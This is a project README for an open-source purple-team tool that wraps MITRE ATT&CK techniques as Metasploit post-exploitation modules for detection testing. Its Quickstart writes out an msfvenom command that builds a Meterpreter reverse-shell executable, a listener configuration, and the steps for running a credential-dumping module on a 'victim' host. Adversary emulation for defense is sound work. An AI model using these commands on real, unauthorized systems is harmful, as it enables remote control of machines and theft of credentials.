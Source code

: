 # Purple Team ATT&CK&trade; Automation

At Praetorian, we were seeking a way to automatically emulate adversary tactics in order to evaluate detection and response capabilities. Our solution implements MITRE ATT&CK&trade; TTPs as Metasploit Framework `post` modules. As of this release, we've automated a little over 100 TTPs as modules.

Metasploit's advantage is its robust library, capability to interact with operating system APIs, and its flexible license. In addition, we're able to emulate the features of other tools such as in-memory .NET execution via leveraging Metasploit's `execute_powershell` functionality. This allows Blue Teams to ensure that their tools are alerting on the actual TTP behavior and not execution artifacts (such as encoded PowerShell).

Our solution is built on top of the latest version of Metasploit as of 09Apr2019 (pulled from: https://github.com/rapid7/metasploit-framework). We’ve made minor modifications to Metasploit’s code base to enable some of the automation. Everything should work as intended if you’re already familiar with Metasploit. The magic happens after you establish a Meterpreter session and run a TTP as a post-exploitation module.

We're open sourcing our work because we believe in solving the cybersecurity problem. By giving Blue Teams more tools to emulate adversary behavior, we hope to improve their capabilities and reduce the still very high average dwell time.

## Wiki

For detailed opertional [usage guidance](https://github.com/praetorian-inc/purple-team-attack-automation/wiki/Operational-Setup-and-Usage) and a full [list of modules](https://github.com/praetorian-inc/purple-team-attack-automation/wiki/Available-Modules) and changes, please view the [GitHub Wiki](https://github.com/praetorian-inc/purple-team-attack-automation/wiki).

## Quickstart

Installation should follow the instructions for installing a Metasploit Docker environment:
https://github.com/rapid7/metasploit-framework/tree/master/docker

In general:
 * Install Docker
 * `git clone https://github.com/praetorian-inc/purple-team-attack-automation.git`
 * Edit `./docker-compose.local.override.yml` to reflect the LHOST of your local system similar to below. By default, port 4444 will be forwarded to the docker container. If you want to use other ports, for instance to mirror HTTPS, you'll have to add them to this file.

```
version: '3'
services:
  ms:
    environment:
      # example of setting LHOST
      LHOST: [Your system's IP address]
    # example of adding more ports
    ports:
      - 8080:8080
      - 443:443
```

 * Add / Remove further ports or IP addresses as you see fit. Don't forget to change the LHOST to your own IP address.
 * `docker-compose build`
 * Start the container with `./docker/bin/msfconsole`
 *	Generate a Meterpreter payload:
 ```
 msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<Attacker IP Address> LPORT=4444 -f exe > meterpreter.exe
 ```
 *	Start and run a local listener: 
 ```
  use exploit/multi/handler
  set PAYLOAD windows/meterpreter/reverse_tcp
  set LHOST <Attacker IP Address>
  set LPORT 4444
  exploit -j -z
  ```
  Copy and run meterpreter.exe on the target (“victim”) host as admin and wait for a session.
*	Run a TTP as a post-exploitation module. The list of modules is provided below. For example, to start the 'Credential Dumping (T1003)’ module, run:  
```
use modules/post/windows/purple/t1003
info
set session 1
run
```

### Meterpreter Payloads

Praetorian recommends you utilize [the nightly installers](https://github.com/rapid7/metasploit-framework/wiki/Nightly-Installers) in order to run msfvenom to create your payloads.

### Common Errors

```
ERROR: Couldn't connect to Docker daemon at http+docker://localunixsocket - is it running?
```

Solved by
```
service docker start
```

## Future Work

* Integrate the container into a fork of [DetectionLab](https://github.com/clong/DetectionLab)
* Compare execution of CALDERA and MSF and how artifacts differ so we can improve adversary emulation
* Leverage the [MSFRPCD](https://metasploit.help.rapid7.com/docs/running-metasploit-remotely) to facilitate automatic attack chaining

## Contact

If you're interested in our Purple Team services, [please reach out to us](https://www.praetorian.com/contact).

If you're an engineer looking to join our great team, we have openings at [our careers page](https://www.praetorian.com/company/careers).

## Contributing

See the [Contribution Guide](https://github.com/praetorian-inc/purple-team-attack-automation/blob/master/CONTRIBUTING.md) for a step-by-step guide to making a module.

Also, follow the [Metasploit Framework's general contributing guidelines](https://github.com/rapid7/metasploit-framework/blob/master/CONTRIBUTING.md).

## Acknowledgements

We'd like to thank various members of the security community for providing a lot of the techniques and code that we integrated into this project. 

* [MITRE ATT&CK&trade;](https://attack.mitre.org/) (Obviously)
* [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team)
* [@subtee](https://twitter.com/subTee)
* [LOLBAS Project](https://lolbas-project.github.io/)
* [CALDERA](https://github.com/mitre/caldera)

At Praetorian, the following engineers helped contribute modules:
* Josh Abraham `jabra [at] spl0it.org` and [@jabra](https://twitter.com/Jabra)
* Abraham Adberstein
* Tanner Harper
* Thomas Hendrickson [github.com/tomis007](https://www.github.com/tomis007)
* George Jouldjian 
* Dallas Kaman
* Blake Luther
* Matt Schneider
* Matthew Verrette
* Daniel Wyleczuk-Stern [@daniel_cybersec](https://twitter.com/Daniel_Cybersec)
